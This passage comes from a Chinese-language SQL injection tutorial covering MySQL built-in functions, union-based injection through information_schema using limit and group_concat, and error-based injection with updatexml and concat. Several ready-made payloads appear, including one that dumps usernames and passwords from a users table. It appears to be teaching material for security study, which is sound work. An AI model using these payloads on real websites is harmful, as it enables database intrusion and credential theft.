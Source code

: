 ## 6.3. 常用内置函数

version()——MySQL 版本

user()——数据库用户名

database()——数据库名

@@datadir——数据库路径

@@version_compile_os——操作系统版本

## 6.4. 通过limit进行逐个注入

```sql
逐个爆出库名：?id=-1' union select 1,schema_name,user() from information_schema.schemata limit 0,1 #
逐个爆出表名：?id=-1' union select 1,table_name,user() from information_schema.tables where table_schema='库名' limit 0,1#
逐个爆出字段名：?id=-1' union select 1,column_name,user() from information_schema.columns where table_name='表名' limit 0,1#
爆出需要的字段值：?id=-1' union select 1,username,password from users limit 0,1#
```
## 6.5. 通过group_concat（）实现更高效的注入

```sql
一次爆出所有数据库名：?id=-1' union select 1,group_concat(schema_name),3 from information_schema.schemata #
一次爆出所以表名：?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='库名’#
一次爆出所有字段名：?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='表名’#
一次爆出所有字段值：?id=-1' union select 1,group_concat(username,0x7c,password),3 from users#
```
# 7. SQL注入-报错注入

## 7.1. **报错注入特点**

当存在注入但无正常回显时，可以使用报错注入，报错注入速度较快，两个重要函数：

concat（)、updatexml（），报错报的是xpath错误。XPath即为XML路径语言（XML Path Language），它是一种用来确定XML文档中某部分位置的语言。 

concat（）的作用是连接字符串，并促使updatexml（）报错，至少需要两个参数。updatexml（）的作用是报错，其中有三个参数。第二个参数 xml中的位置是可操作的地方，xml文档中查找字符位置是用 /xxx/xxx/xxx/…这种格式，如果我们写入其他格式，就会报错，并且会返回我们写入的非法格式内容，而这个非法的内容就是我们想要查询的内容。

## 7.2. **报错注入一般流程**

**查询用户：**

拼接注入语句 concat(0x7c,select user(),0x7c)

updatexml(1,concat(0x7c,select user(),0x7c),1)

完整的注入语句:?id=1 and updatexml(1,concat(0x7c,(select user()),0x7c),1)
